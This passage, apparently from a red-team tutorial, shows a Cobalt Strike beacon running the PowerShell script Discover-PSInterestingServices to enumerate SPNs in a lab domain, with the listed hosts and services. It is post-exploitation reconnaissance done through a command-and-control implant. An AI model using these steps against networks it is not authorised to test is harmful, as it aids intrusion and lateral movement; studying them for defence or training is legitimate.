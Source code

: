 If you want to query all SPN information within the domain, you can use the "Discover-PSInterestingServices" script.

```
beacon> powershell-import D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[*] Tasked beacon to import: D:\PowerShell-AD-Recon\Discover-PSInterestingServices
[+] host called home, sent: 4552 bytes
beacon> powershell Discover-PSInterestingServices
[*] Tasked beacon to run: Discover-PSInterestingServices
[+] host called home, sent: 353 bytes
[+] received output:


Domain          : sub.sectest.com
ServerName      : DC-2.sub.sectest.com
SPNServices     : Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04;DNS;exchangeAB;ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : _msdcs.sectest.com
ServerName      : _msdcs.sectest.com\DNSzone
SPNServices     : ldap
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 19:22:32
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sectest.com\krbgt
SPNServices     : kadmin
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : sql-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 22:07:25
OSVersion       : {10.0 (14393)}
Description     : 

Domain          : sectest.com
ServerName      : sqlserver.sectest.com
SPNServices     : MSSQLSvc
OperatingSystem : 
OSServicePack   : 
LastBootup      : 1601/1/1 8:00:00
OSVersion       : 
Description     : 

Domain          : sectest.com
ServerName      : web-1.sectest.com
SPNServices     : WSMAN
OperatingSystem : {Windows Server 2016 Standard}
OSServicePack   : 
LastBootup      : 2022/9/24 20:15:09
```